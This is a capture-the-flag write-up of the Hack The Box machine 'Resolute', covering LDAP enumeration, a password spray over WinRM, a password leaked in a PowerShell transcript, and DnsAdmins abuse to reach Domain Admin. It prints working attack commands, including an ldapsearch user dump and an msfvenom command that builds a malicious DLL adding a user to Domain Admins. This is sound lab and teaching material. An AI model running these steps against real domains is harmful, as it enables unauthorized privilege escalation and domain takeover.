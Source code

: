 ```yaml
---
layout: single
title: 'Resolute Write-Up: Hack The Box'
excerpt: "Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine."
classes: wide
categories: [hackthebox]
date: 2020-05-30
tags: [hackthebox, dns, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\resolute\resolute-banner.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
toc_sticky: true
---
```

![](\assets\images\htb\resolute\resolute-banner.png)
## TL;DR
Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray using WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-resolute 10.10.10.169`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 20:36 EDT
Nmap scan report for 10.10.10.169
Host is up (0.029s latency).                      
Not shown: 65511 closed ports                     
PORT      STATE SERVICE      VERSION              
53/tcp    open  domain?                           
| fingerprint-strings:                            
|   DNSVersionBindReqTCP:                                                                                            
|     version                                     
|_    bind                                        
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-27 00:44:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0        
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                                                                           
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                          
|_http-title: Not Found    
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
65424/tcp open  unknown

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## LDAP Enumeration

A default password is shown via the description for user `marko`.
```
Marko Novak, Employees, MegaBank Users, megabank.local                                                             
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user 
cn: Marko Novak                                           
sn: Novak 
description: Account created. Password set to Welcome123!
[TRUNCATED]
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local                                            
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

I was unable to get any usage from the `Welcome123!` password and `Marko`, so I created a username list and used Metasploit's WinRM Login module to test the password against the remainder of the accounts.

`ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=Person)' | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > users.txt`

We got a hit on user `melanie`.
![](\assets\images\htb\resolute\resolute-winrm-scan.png)

## Machine Compromise

I used evil-WinRM to get a shell and grabbed the user flag.
![](\assets\images\htb\resolute\resolute-melanie-login.png)

Looking at the root directory, we see an interesting folder that is hidden. This leads to an file that leaks the user Ryan's password.

*File Location:*
`C:\PStranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

*Line Containing Password Leak:*
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

## Pivoting to DNS Admin

Using Evil-WinRM I logged in with Ryan and noticed he was part of a `Contractors` group. I love Bloodhound, so I used this opportunity to run it to enumerate everything that's going on in the AD structure.

Ryan was a member of the `Contractors` group, but what is interesting is that `Contractors` are a member of `DnsAdmins` group. Privileges!
![](\assets\images\htb\resolute\resolute-bloodhound.png)

After some research, I followed these blog posts that outline a privilege escalation via a feature abuse in AD where a user who is member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server:
[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html){:target="_blank"}  
[From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise){:target="_blank"} 

In accordance with the blog post, I created a malicous DLL that will add Melanie to the Domain Admins group:  
`msfvenom -a x64 -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' -f dll -o mel.dll`

![](\assets\images\htb\resolute\resolute-dnscmd-entry.png)

## Domain Admin Escalation

Now we  can log in with Melanie and grab the root flag:
![](\assets\images\htb\resolute\resolute-root.png)

Thanks for reading!